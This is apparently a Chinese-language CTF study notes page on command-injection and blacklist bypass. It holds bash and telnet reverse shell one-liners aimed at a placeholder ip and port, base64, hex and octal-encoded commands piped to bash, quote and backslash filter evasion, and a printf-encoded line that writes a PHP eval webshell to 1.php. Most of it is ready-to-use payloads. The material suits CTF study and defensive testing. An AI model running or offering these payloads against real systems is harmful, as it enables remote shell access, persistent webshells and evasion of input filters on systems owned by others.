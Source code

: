 SHELL=/bin/bash

- /bin/bash -i >& /dev/tcp/ip/port 0>&1

telnet方式

```cobol
mknod backpipe p && telnet ip port 0<backpipe | /bin/bash 1>backpipe
```

##### [字符串匹配](https://so.csdn.net/so/search?q=%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8C%B9%E9%85%8D&spm=1001.2101.3001.7020)

环境和上面一样，传入的c会被eval执行，要求读取到flag.php的内容，这个就是利用grep进行字符串匹配，绕过姿势如下

```perl
c=system("cat fl*g.php | grep  -E 'fl.g' ");
```

具体来说，它会使用系统的 “**cat**” 命令来输出文件名以 “fl” 开头且以 “g.php” 结尾的文件内容，并使用 “grep” 命令过滤掉不包含 “fl.g” 的行。最后，这个命令的输出会被赋值给变量 $c。
##### 1、拼接绕过  
比如：`a=l;b=s;$a$b`  
上面的第二道题目也是利用偶读拼接方法绕过黑名单：`a=fl;b=ag;cat $a$b`
##### 2、编码绕过
- [ ] base64：
```
 `echo MTIzCg==|base64 -d` 其将会打印123  
 `echo "Y2F0IC9mbGFn"|base64-d|bash` ==>`cat /flag`
```
```
例题：?cmd=system("`echo%20%27bHM=%27|base64%20-d`");
```
![[Pasted image 20240123164410.png]]
- [ ] hex：
xxd:二进制显示和处理文件工具
-r -p将纯十六进制传储反向输出ASCII格式
==不用加反引号。==
```
echo '6C73'|xxd -r -p|bash
```
例题：echo '6C73'|xxd -r -p|bash
![[Pasted image 20240123165249.png]]
- [ ] shellcode：
```
 $(printf "\154\163") ==>ls  
 $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag  
 {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag  
 #可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>  
 ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```
例题：`system("printf%20%27\x6c\x73%27|bash");`
![[Pasted image 20240123165228.png]]
###### 3、单引号和双引号绕过  
比如：
```
`ca''t flag` 或`ca""t flag`  
```
###### 4、反斜杠绕过  
比如：
```
ca\t fl\ag
```
###### 5, js检测绕过
Ctrl+u查看代码发现判断在url里面的js代码中，所以就要用火狐禁用js或者burp抓包